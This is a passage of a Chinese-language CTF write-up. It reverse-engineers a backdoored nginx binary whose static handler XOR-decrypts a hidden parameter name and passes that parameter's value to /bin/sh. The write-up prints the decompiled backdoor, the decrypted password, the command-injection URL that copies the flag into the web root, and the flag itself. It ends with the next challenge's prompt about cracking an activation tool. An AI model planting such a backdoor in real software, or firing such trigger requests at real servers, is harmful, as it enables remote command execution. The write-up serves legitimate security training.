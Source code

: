 找到了这个有趣的内容：

```assembly
                             s_This_is_a_fake_flag!_001b8f5c                 XREF[3]:     ngx_http_static_handler:0018a078
                                                                                         ngx_http_static_handler:0018a087
                                                                                          001dd540 (*)   
        001b8f5c 54  68  69       ds         "This_is_a_fake_flag!"
                 73  5f  69 
                 73  5f  61 

```

我相信假 flag 不可能一点用都没有，于是定位到调用了这部分字符串的函数 `ngx_http_static_handler`，下面截取了有用的内容：

```cpp
__s = g_flag;	// g_flag 的内容就是 "This_is_a_fake_flag!"

// 将 password 硬编码为神秘值，然后与 g_flag 进行异或运算（解密）得到新的 password
builtin_memcpy(password,"#1\x03\x17.\x10\n\x135/\x16$\r6<\x0e ,\x13F",0x14);
for (uVar16 = 0; sVar4 = strlen(__s), uVar16 < sVar4; uVar16 = uVar16 + 1) {
  password[uVar16] = password[uVar16] ^ __s[uVar16];
}
nVar5 = ngx_http_arg(r,password,uVar16,&arg_value);				// 从HTTP请求中获取 password 这个参数
																// 返回 0 表示找到了这个参数
if ((nVar5 == 0) && (arg_value.len - 1 < 0x3ff)) {
    _Var2 = fork();
    if (_Var2 == 0) {
        // 子进程执行
        iVar3 = getrlimit64(RLIMIT_NOFILE,(rlimit64 *)&rlim);
        // 关闭所有文件描述符
        for (; __fd < iVar18; __fd = __fd + 1) {
            close(__fd);
        }
        // 执行系统命令，也就是说我可以构造 http://ip:port/?password=cp /flag /nginx/html/flag.txt
        // 把 flag 文件拷贝到网站根目录
        execl("/bin/sh","sh",&DAT_001b8f1b,local_528,0);
        exit(0x7f);
    }
}
```

对 ` "#1\x03\x17.\x10\n\x135/\x16$\r6<\x0e ,\x13F"` 与 `"This_is_a_fake_flag!"` 进行异或解密得到 `password = wYjdqyyLTppEfSchLMtg`

先 `http://ip:port/?wYjdqyyLTppEfSchLMtg=cp /flag /nginx/html/flag.txt` 把 flag 文件拷贝到网站根目录，然后 `http://ip:port/flag.txt` 就能获得 Flag: `flag{17a7f10e-f07c-4e3f-a080-8b91d94245b4}`



### RE02-ITSC正版Office激活工具

> **描述：** 这是xx大学 ITSC 的会员制 Office 激活工具，必须每个月上交 114514 块钱网费才能获得激活码。你的任务是通过逆向工程破解该工具，找到激活码的生成方式，并生成用户 `itsc` 的激活码。
>
> 获得激活码后，在外面包裹 `flag{}` 提交，如激活码是 `0123456789abcdef`，则提交 `flag{0123456789abcdef}`。
